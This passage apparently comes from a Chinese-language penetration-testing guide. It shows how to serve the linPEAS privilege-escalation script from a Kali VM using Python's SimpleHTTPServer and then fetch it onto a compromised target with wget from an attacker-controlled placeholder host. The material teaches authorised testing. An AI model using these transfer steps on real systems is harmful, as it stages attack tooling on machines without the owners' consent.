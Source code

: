 ## 文件传输

要将**linpeas.sh**文件传输到目标系统，我们需要在 Kali VM 上设置一个 Web 服务器来托管该文件。这将允许我们在目标系统上下载该文件。可以按照以下步骤操作：

1.  要在 Kali VM 上设置 Web 服务器，我们可以利用**SimpleHTTPServer** Python 模块来提供该二进制文件。可以通过在存储**linpeas.sh**二进制文件的目录中运行以下命令来完成此操作：

    **sudo python -m SimpleHTTPServer 80**

    注意

    **SimpleHTTPServer**是一个适用于 Python 2 的 Python 模块，Python 3 中也有可用的**http.server**模块。

    如下图所示，**SimpleHTTPServer**模块将会在 Kali VM 的 IP 地址上通过端口**80**提供该目录中的文件：

    ![图 12.5 – SimpleHTTPServer linpeas    ](img/B17389_12_005.jpg)

    图 12.5 – SimpleHTTPServer linpeas

1.  要在目标系统上下载**linpeas.sh**文件，我们可以利用**wget**工具。然而，在下载二进制文件之前，我们需要导航到一个具有读写权限的目录。在这种情况下，我们将导航到临时目录，如下图所示：![图 12.6 – Linux 临时目录    ](img/B17389_12_006.jpg)

    图 12.6 – Linux 临时目录

1.  现在我们可以使用**wget**工具将文件从 Kali VM 下载到我们的目标系统。可以通过在目标系统上运行以下命令来完成此操作：

    **wget http://<KALI-VM-IP>/linpeas.sh**

    输出如下截图所示：

![图 12.7 – wget linPEAS](img/B17389_12_007.jpg)
